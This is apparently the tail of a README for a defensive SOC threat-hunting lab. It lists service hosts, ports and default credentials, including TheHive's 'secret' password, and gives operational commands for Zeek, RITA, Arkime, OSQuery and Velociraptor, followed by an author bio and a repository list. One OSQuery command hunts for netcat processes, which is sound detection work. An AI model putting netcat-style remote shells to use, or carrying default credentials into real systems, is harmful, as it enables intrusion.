| Service Name | Host IP | Port | Protocol | Default Credentials / Authentication |
|---|---|---|---|---|
| **Zeek Sensor** | `192.168.50.10` | 22 | SSH | User configured SSH key |
| **RITA API / Web** | `192.168.50.10` | 4380 | HTTPS | Local certificate |
| **Arkime Web UI** | `192.168.50.20` | 8005 | HTTP | `admin` / Password set during install |
| **Elasticsearch** | `192.168.50.20` | 9200 | HTTP | Internal access only |
| **Velociraptor GUI** | `192.168.50.30` | 8889 | HTTPS | `admin` / Password set during install |
| **Velociraptor Agent**| `192.168.50.30` | 8000 | gRPC / TLS | Client certificate config |
| **MISP Web Console** | `192.168.60.10` | 443 | HTTPS | `admin@soc-lab.local` / Set during install |
| **TheHive 5** | `192.168.60.20` | 9000 | HTTP | `admin@thehive.local` / `secret` |
| **Cortex** | `192.168.60.20` | 9001 | HTTP | `admin` / Password set during install |
| **Shuffle SOAR** | `192.168.60.30` | 3001 | HTTP/HTTPS | User created on first login |

### Quick Operational Command Reference

```bash
# Zeek: Check running status and capture statistics
/opt/zeek/bin/zeekctl status

# RITA: Run manual analysis on the current Zeek connection logs
cd /opt/zeek/logs/current && rita import . soc-hunt && rita show-beacons soc-hunt

# Arkime: Check packet capture indexing process
sudo systemctl status arkimecapture

# OSQuery: Execute an interactive SQL query on the endpoint
sudo osqueryi "SELECT pid, name, path, cmdline FROM processes WHERE name LIKE '%nc%';"

# Velociraptor: Run a standalone VQL query from the terminal
velociraptor --config /etc/velociraptor/server.config.yaml query "SELECT * FROM info()"

# Integration Services: Check forwarder daemon logs
sudo journalctl -u soc-rita-forwarder -f
sudo journalctl -u soc-zeek-forwarder -f
sudo journalctl -u soc-misp-sync -f
```

---

# 👤 Author

## Sandeep Mothukuri

**Senior SOC Analyst (L3) · Detection Engineering · Threat Hunting · Incident Response · Security Engineering**

Focus areas:
- Security Operations (SOC L1 / L2 / L3)
- Threat Hunting & Forensic Analysis
- Detection Engineering & Rule Development (Sigma, YARA, VQL)
- Security Orchestration, Automation & Response (SOAR)
- Threat Intelligence Ingestion & Sharing (MISP)
- Full Packet Capture & Network Security Monitoring
- MITRE ATT&CK Framework Mapping & Gap Analysis

Connect:
- **GitHub:** [@sandeepmothukuri](https://github.com/sandeepmothukuri)
- **Website:** [cybertechnology.in](https://cybertechnology.in)
- **LinkedIn:** [linkedin.com/in/sandeepmothukuri](https://www.linkedin.com/in/sandeepmothukuri)
- **Email:** [sandeep.mothukuris@gmail.com](mailto:sandeep.mothukuris@gmail.com)

---

# 🗂️ All Repositories

| Repository | Focus & Description |
|---|---|
| [AI-SOC-Decision-Engine](https://github.com/sandeepmothukuri/AI-SOC-Decision-Engine) | AI-assisted SOC decision and control plane for automated alert triage, enrichment, and analyst approval workflows. |
| [AI-Augmented-SOC-Lab](https://github.com/sandeepmothukuri/AI-Augmented-SOC-Lab) | AI-augmented security operations combining Wazuh SIEM + TheHive + local Ollama LLMs for assisted triage. |
| [Enterprise-Detection-Engineering-SOC-Lab](https://github.com/sandeepmothukuri/Enterprise-Detection-Engineering-SOC-Lab) | Enterprise 12-tool SOC lab with OpenSearch, Suricata, Zeek, MISP, Caldera, and Velociraptor. |
| [Autonomous-SOC-Lab](https://github.com/sandeepmothukuri/Autonomous-SOC-Lab) | Autonomous SOC architecture with AI-driven threat detection and self-healing response playbooks. |
| [soc-threat-hunting-lab](https://github.com/sandeepmothukuri/soc-threat-hunting-lab) | Threat detection and hunting lab featuring Zeek, RITA, Arkime, Velociraptor, OSQuery, MISP, and Shuffle. |
| [soc-lab-free](https://github.com/sandeepmothukuri/soc-lab-free) | Completely free SOC engineering lab featuring OpenVAS, Wazuh, pfSense, Proxmox Mail Gateway, and Lynis. |
| [SOC-Detection-and-Threat-Hunting-Lab](https://github.com/sandeepmothukuri/SOC-Detection-and-Threat-Hunting-Lab) | Hands-on SOC analyst lab utilizing Wazuh SIEM, Sysmon telemetry, MITRE ATT&CK mapping, and incident response. |
| [PromptSentinel](https://github.com/sandeepmothukuri/PromptSentinel) | Enterprise prompt injection detection engine and AI security firewall for LLM applications. |
| [PromptShield](https://github.com/sandeepmothukuri/PromptShield) | AI Security and SOC detection engineering lab with prompt security telemetry, detection rules, and automated response. |
| [sentinel-detection-engine](https://github.com/sandeepmothukuri/sentinel-detection-engine) | Detection-as-code for Microsoft Sentinel and Defender XDR with KQL queries, SOAR playbooks, and ATT&CK coverage. |

---

### 📄 License

This project is licensed under the MIT License. See [`LICENSE`](LICENSE) for details.
